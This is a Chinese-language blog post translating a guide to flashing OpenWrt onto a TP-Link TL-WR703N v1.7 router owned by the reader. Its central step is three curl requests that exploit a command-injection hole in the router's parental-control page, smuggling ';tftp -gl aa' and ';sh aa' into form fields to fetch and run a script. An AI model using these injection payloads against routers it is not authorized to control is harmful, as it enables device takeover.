 layout: tl-wr703n
title: TL-WR703N v1.7 刷OpenWrt（译）
date: 2015-09-06 11:00:54
categories: Practice
tags: [OpenWrt,router,translation]
---
买了一台TP-Link wr703n准备刷OpenWrt用作开发，怎料官方挖了个大坑等我去跳——最新的官方固件封死网页刷机的渠道（据说是加了签名），又不会焊TTL的。。。幸好国外的大神已经给出了解决方案，亲测可行，替大家把原文翻译一下（有改动）。

<!--more-->

原文出处：[http://www.shadowandy.net/2015/03/flashing-tp-link-tl-wr703n-v1-7-to-openwrt.htm](http://www.shadowandy.net/2015/03/flashing-tp-link-tl-wr703n-v1-7-to-openwrt.htm)
## 翻译水平有限大家将就看看哈，刷坏概不负责。


### 获得必要的材料

将v1.7的TL-WR703N刷到OpenWrt，你需要：

1. 固件版本为3.17.1 Build 140120 Rel.56593n的TL-WR703N v1.7
2. OpenWrt为TL-WR703N定制的固件 [Download](http://downloads.openwrt.org/barrier_breaker/14.07/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin)
3. cURL以发送 crafted http 请求 [Download](http://curl.haxx.se/download.html)
4. dd 以拆分 OpenWrt 为 kernel 和 rootfs 镜像 [Download](http://www.chrysocome.net/dd)
5. TFTP 服务器（建议32位）[Download](http://tftpd32.jounin.net/)
6. 一个命令行脚本来指导路由器执行刷机.你需要一个编辑器 (e.g. Notepad++) 来创建一个Unix风格的脚本
7. busybox 1.16.1 for mips [Download](http://www.busybox.net/downloads/binaries/1.16.1/)

### 准备开发wr703n的材料

1. 拆分 OpenWrt 为 kernel 和 rootfs 镜像

		dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i1 bs=1 count=1048576
		dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i2 bs=1 skip=1048576

2. 在你的电脑上设置局域网接口

命令行脚本(aa)是在和IP地址192.168.1.9沟通。你可以修改电脑的静态IP也可以修改命令行脚本里的地址，这取决于你！

### 开始刷机

1. 用必要的文件设置TFTP
现在你有以下四个文件：
	* aa
	* i1
	* i2
	* busybox
**解压并执行**TFTP服务器并且将操作根目录指向含有这四个文件的地方

2. 连接设备并且还原出厂设置（点击恢复出厂设置就好，不要干多余的事）

3. 执行开发并升级  
	在此之前，确认你电脑的静态IP为192.168.1.9

	1. 将你的在命令行下的操作目录指向含有cURL的地方
	2. 依次执行以下三条命令

			curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=true" "http://192.168.1.1/"
			curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=" --referer "http://192.168.1.1/userRpm/ParentCtrlRpm.htm" "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?ctrl_enable=1&parent_mac_addr=00-00-00-00-00-02&Page=1"
			curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=" --referer "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?Modify=0&Page=1" "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?child_mac=00-00-00-00-00-01&lan_lists=888&url_comment=test&url_0=;cd%20/tmp;&url_1=;tftp%20-gl%20aa%20192.168.1.9;&url_2=;sh%20aa;&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed=1&SelIndex=0&Page=1&rule_mode=0&Save=%B1%A3+%B4%E6"
判断命令是否执行成功：

	* 如果命令一成功，登陆密码被修改为"admin42"
	* 如果命令二成功，I can see the new parental item is added and enabled.(没看懂orz)
	* 但是如果命令三成功，看起来没有任何事情发生（命令三有些慢，请不要慌）

	备注：在过程中千万不要断开路由器的电源，否则你的路由器很有可能变砖！！！
4. 当路由器不再闪烁时，在浏览器输入192.168.1.1登陆Openwrt。
5. 享受你的 TL-WR703N v1.7 吧

这里是我刷机用过的工具和做好的材料，解压后使用——[度盘](http://pan.baidu.com/share/link?shareid=3048068689&uk=3694274917)
